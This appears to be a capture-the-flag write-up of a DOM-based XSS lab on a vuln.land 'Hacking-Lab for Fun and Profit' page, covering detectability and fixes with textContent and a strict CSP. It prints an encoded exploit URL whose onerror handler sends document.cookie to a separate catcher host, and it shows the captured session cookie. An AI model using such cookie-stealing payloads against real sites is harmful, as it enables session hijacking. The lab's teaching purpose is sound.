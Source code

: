 Cookie: `jsessionid=my_name_is_bond_007` (contained in the `c` query parameter).

## Why this is DOM-based & detectability

- The payload resides in the URL **fragment** (`#…`), which is processed **only by the browser** and **not sent** to the server in the initial HTTP request.
- The origin server won’t log the payload; it will typically only see the **secondary request** to the catcher (and possibly CSP reports).

## Remediation

- Replace unsafe sinks: **`.innerHTML` / `$.html()` → `.textContent` / `$.text()`** for any content derived from `location.hash`.
- Enforce strict allow-listing of permitted fragment values; ignore everything else.
- Add a strict CSP, e.g.:

```
Content-Security-Policy: default-src 'self'; script-src 'self'; connect-src 'self'; object-src 'none'; base-uri 'none'
```

## Exploration

Reflected text:

```
https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/start.html#Hello
```

HTML render (bold):

```
https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/start.html#%3Cb%3EXSS%3C/b%3E
```

PoC alert:

```
https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/start.html#%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E
```

## Summary

- **Vulnerability location:** On the “Hacking-Lab for Fun and Profit” page (`/start.html`), the app reads `location.hash` and injects it into the DOM via an HTML-interpreting sink (e.g., `innerHTML`/`$.html()`), enabling DOM XSS.  
   _Verified by:_ `#Hello` reflected, bold render with `#%3Cb%3EXSS%3C/b%3E`, and alert PoC with `#%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E`.
- **Exploit URL used (encoded):**  
   `https://3bfff57e-060d-4a7a-8bbc-07d36cc7db6a.i.vuln.land/start.html#%3Cimg%20src%3Dx%20onerror%3D%22location.href%3D%27https%3A%2F%2F7d19ce6f-b2a2-412d-9e44-f398523eb52f.i.vuln.land%2Fx%3Fc%3D%27%2BencodeURIComponent(document.cookie)%22%3E`
- **Captured request (from catcher `/debug`):**  
   `GET /x?c=jsessionid%3Dmy_name_is_bond_007` at **2025-10-14 22:19:52**; Referer: `https://3bfff57e-.../start.html`; full headers included (Host, User-Agent, Sec-Fetch-_, X-Forwarded-_, etc.).  
   **Exfiltrated cookie:** `jsessionid=my_name_is_bond_007`.
- **Server-side detectability:** The payload is in the URL **fragment** (`#…`), which is not sent to the origin server. The origin typically only sees the **secondary request** to the catcher (and possibly CSP violation reports).
- **Fix (concise):** Replace `.innerHTML`/`$.html()` with `.textContent`/`$.text()`, strictly allow-list expected fragment values, and add a CSP (e.g., `default-src 'self'; script-src 'self'; connect-src 'self'; object-src 'none'; base-uri 'none'`).

